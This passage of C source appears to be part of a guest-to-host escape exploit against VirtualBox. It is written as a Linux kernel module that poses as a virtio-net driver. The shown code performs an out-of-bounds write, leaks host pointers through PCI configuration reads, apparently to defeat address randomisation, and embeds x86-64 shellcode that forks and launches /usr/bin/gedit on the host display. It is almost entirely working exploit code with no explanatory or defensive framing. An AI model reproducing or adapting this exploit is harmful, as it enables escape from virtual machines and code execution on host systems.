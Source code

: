 ```c

    // We modify pDevInsR3 to point to pDevInsR3 + 0x10.
    oob_write(dev, vdev, 0x10, PDMPCIDEVINT_s - aVlanFilter_off, 8);
}


static int dp_virtio_net_probe(struct virtio_device *vdev)
{
    static vq_callback_t *callbacks[]   = {NULL, NULL, NULL};
    struct dp_xpl *dev                  = NULL;
    static const char *names[]          = {"rx", "tx", "ctrl"};
    uint16_t val                        = 0;
    uint64_t pDevInsR3_addr             = 0;
    uint64_t virtioR3PciConfigRead_addr = 0;
    uint64_t VBoxDD_addr                = 0;
    int rc                              = 0;
    int i                               = 0;

    unsigned char shellcode[] = {
    0x48, 0x31, 0xc0, 0xb0, 0x39, 0x0f, 0x05, 0x48, 0x85, 0xc0, 0x74, 0x1d,
    0x48, 0x31, 0xf6, 0x48, 0x31, 0xd2, 0x4d, 0x31, 0xd2, 0x48, 0x89, 0xc7,
    0xb8, 0x3d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00,
    0x48, 0x31, 0xff, 0x0f, 0x05, 0x48, 0xbb, 0xff, 0x2f, 0x67, 0x65, 0x64,
    0x69, 0x74, 0x00, 0x48, 0xc1, 0xeb, 0x08, 0x53, 0x48, 0xbb, 0x2f, 0x75,
    0x73, 0x72, 0x2f, 0x62, 0x69, 0x6e, 0x53, 0x54, 0x5f, 0x48, 0xbb, 0xff,
    0x3a, 0x30, 0x2e, 0x30, 0x00, 0x00, 0x00, 0x48, 0xc1, 0xeb, 0x08, 0x53,
    0x48, 0xbb, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x53, 0x54,
    0x5a, 0x48, 0x31, 0xc0, 0x50, 0x52, 0x54, 0x5a, 0x50, 0x57, 0x54, 0x5e,
    0xb0, 0x3b, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00,
    0x00, 0x00, 0x0f, 0x05
    };

    pr_info("==> probe\n");

    dev = kzalloc(sizeof(struct dp_xpl), GFP_KERNEL);
    if (!dev) return -ENOMEM;

    dev->ctrl = kzalloc(sizeof(struct command_entry), GFP_KERNEL);
    if (!dev->ctrl) return -ENOMEM;

    rc = virtio_find_vqs(vdev, 3, dev->vqueues, callbacks, names, NULL);
    if (rc) return rc;

    vdev->priv = dev;

    virtio_device_ready(vdev);

    pr_info("[+] device ready [+]\n");

    dev->pci_dev = to_pci_dev(vdev->dev.parent);

    leak_addr(vdev, dev, uNotifyOffset_off, WORD, 0);
    pci_read_config_word(dev->pci_dev, 0, &val);
    pDevInsR3_addr |= ((uint64_t)val << 32);

    leak_addr(vdev, dev, uEnable_off, WORD, 0);
    pci_read_config_word(dev->pci_dev, 0, &val);
    pDevInsR3_addr |= ((uint64_t)val << 16);

    leak_addr(vdev, dev, uMsixVector_off, WORD, 0);
    pci_read_config_word(dev->pci_dev, 0, &val);
    pDevInsR3_addr |= val;

```